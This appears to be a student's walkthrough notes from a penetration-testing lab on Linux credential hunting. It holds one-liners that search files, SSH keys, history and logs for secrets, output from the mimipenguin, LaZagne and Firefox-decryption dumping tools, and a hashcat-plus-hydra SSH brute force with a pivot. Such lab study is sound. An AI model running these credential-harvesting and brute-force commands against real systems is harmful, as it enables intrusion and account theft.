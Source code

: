 
##### Configuration Files
```go
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```

##### Credentials in Configuration Files
```go
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```

##### Databases
```go
for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done
```

##### Credentials in Notes
```go
find /home/* -type f -name "*.txt" -o ! -name "*.*"
```

##### Credentials in Scripts
```go
for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done
```

##### Cronjobs
```go
ls -la /etc/cron.*/
```

##### SSH Keys

**Private Keys**
```go
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
```

**Public Keys**
```go
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```

##### Bash History
```go
 tail -n5 /home/*/.bash*
```

##### Logs
```go
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

##### Memory and Cache

**Memory - Mimipenguin**
https://github.com/huntergregal/mimipenguin


```go
cry0l1t3@unixclient:~$ sudo python3 mimipenguin.py
[sudo] password for cry0l1t3: 

[SYSTEM - GNOME]	cry0l1t3:WLpAEXFa0SbqOHY


cry0l1t3@unixclient:~$ sudo bash mimipenguin.sh 
[sudo] password for cry0l1t3: 

MimiPenguin Results:
[SYSTEM - GNOME]          cry0l1t3:WLpAEXFa0SbqOHY
```

Lazagne
https://github.com/AlessandroZ/LaZagne

```go
sudo python2.7 laZagne.py all
```

##### Browsers

Firefox
```go
ls -l .mozilla/firefox/ | grep default 
```

```go
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```

[Firefox Decrypt](https://github.com/unode/firefox_decrypt) can be used to decrypt the credentials. The latest version requires Python 3.9, else Python 2

Example Usage
```go
datboyblu3@htb[/htb]$ python3.9 firefox_decrypt.py

Select the Mozilla profile you wish to decrypt
1 -> lfx3lvhb.default
2 -> 1bplpd86.default-release

2

Website:   https://testing.dev.inlanefreight.com
Username: 'test'
Password: 'test'

Website:   https://www.inlanefreight.com
Username: 'cry0l1t3'
Password: 'FzXUxJemKm6g2lGh'
```

Lazagne can also collect passwords in browsers
```go
python3 laZagne.py browsers
```

## Questions

Target
```go
10.129.241.137
```

1) Examine the target and find out the password of the user Will. Then, submit the password as the answer.


Nmap results:
```go
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|_  3072 3f:4c:8f:10:f1:ae:be:cd:31:24:7c:a1:4e:ab:84:6d (RSA)
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-05-12T20:58:39
|_  start_date: N/A
|_nbstat: NetBIOS name: NIX01, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.08 seconds

```

Generate a list of mutated passwords
```go
hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
```

The hint tells us that the user `Kira` has a password of `LoveYou1`. From the mutated list, grab all passwords that are similar to this password. The first Instance starts at line 42523 to line 52538. Put these in a separate list called `kiras_passwds_list`
```go
sed -n '49006,52538 p' mut_password.list > kiras_passwds_list.txt
```

This can also be done in vi/vim:
```go
:42523,52538w!/tmp/kiras_passwds_list.txt
```

Brute force SSH via hydra
```go
hydra -l kira -P kiras_new_passwds_list.txt ssh://10.129.240.214
```

Password found:
```go
L0vey0u1!
```

![[Pasted image 20250512214626.png]]

### Pivoting in Kira's account

SSH
```go
ssh kira@10.129.218.247
```

Transfer LaZagne to Kira
```go
scp -r firefox_decrypt-1.1.1.zip kira@10.129.218.247:/tmp
```

Executed firefox decrypt on Kira's machine:
![[Pasted image 20250513072313.png]]

Password:
```go
TUqr7QfLTLhruhVbCP
```

Username:
```go
will@inlanefreight.htb
```

Website:
```go
https://dev.inlanefreight.com
```
